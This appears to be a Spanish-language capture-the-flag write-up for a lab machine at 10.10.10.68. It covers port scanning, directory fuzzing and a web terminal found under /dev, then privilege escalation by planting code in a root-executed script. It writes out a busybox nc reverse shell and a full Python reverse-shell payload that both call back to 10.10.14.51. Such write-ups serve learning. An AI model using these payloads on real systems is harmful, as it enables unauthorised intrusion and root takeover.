 We will start with a scan of open ports and services using the nmap tool. 

`sudo nmap -p- --open -sS --min-rate 5000 -n -v -sV -Pn 10.10.10.68 > escaneo.txt`

![[Pasted image 20240829191529.png]]
Unicamente encontramos un servicio http abierto, por lo que escanearemos la web para obtener mas informacion mediante la herramienta whatweb
` whatweb -v 10.10.10.68`
![[Pasted image 20240829191706.png]]
![[Pasted image 20240829191718.png]]
Podemos ver informacion relevante como que el servicio web es un servidor  Apache/2.4.18 (Ubuntu)

Procedemos a visitar la web 
![[Pasted image 20240829191834.png]]Tras visitar la web no encontramos rutas interesantes ni formas de subir archivos etc...
Encontramos esta ruta en la web que nos habla de una especie de terminal web
![[Pasted image 20240829191959.png]]
Al no encontrar nada procedemos a hacer fuzzing de directorios pàra ver que podemos encontrar.
`ffuf -w Desktop/diccionario/Directorios/directory-list-2.3-medium.txt -u http://10.10.10.68/FUZZ -e .php,.js,.html,.txt -c`

Encontramos los siguientes directorios:
![[Pasted image 20240829192400.png]]
Ingresamos en el directorio dev, es el que mas me ha llamado la atención 
![[Pasted image 20240829192436.png]]
Encontramos dos archivos en php, vamos a ver el contenido del primero

![[Pasted image 20240829192522.png]]
Hemos encontrado la terminal web de la captura anterior.
Probamos a introducir una reverse shell directamente
Al probar con varias vemos que funciona con la siguiente 
`busybox nc 10.10.14.51 4444 -e sh`

![[Pasted image 20240829192809.png]]
Ya tenemos acceso a la reverse shell, tras hacer un tratamiento de la tty, procedemos a probar comandos como sudo -l, pero primero vemos la flag 
User flag 
![[Pasted image 20240829193618.png]]
`sudo -l`
![[Pasted image 20240829192944.png]]
Encontramos que el usuario scriptmanager puede lanzar comandos sin contraseña
![[Pasted image 20240829193037.png]]
Al no tener la contraseña intentaremos lanzar comandos como scriptmanager mediante sudo -u 
![[Pasted image 20240829193253.png]]
Probamos a lanzar una terminal como scriptmanager 
`sudo -u  scriptmanager bash`
![[Pasted image 20240829193343.png]]
Ya somos el usuario scriptmanager 
Intentamos buscar binarios con permisos SUID pero no encontramos nada interesante y tampoco podemos lanzar sudo -l.

![[Pasted image 20240829193716.png]]
Al listar la carpeta raiz vemos el directorio scripts, veamos que contiene
![[Pasted image 20240829194159.png]]
Encontramos que el archivo test.py cuando se ejecuta abre el archivo test.txt y escribe una frase y lo cierra, el archivo test.txt tiene permisos root, por lo que intuimos que test.py se esta ejecutando en intervalos de tiempo por el propio root, intentaremos pasarle una revese shell de python y esperar en escucha a ver si la ejecuta.

import socket,subprocess,os  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("10.10.14.51",4445)) 
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);


![[Pasted image 20240829200918.png]]
Ya tenemos privilegios root!!!!!!
Root flag
![[Pasted image 20240829200943.png]]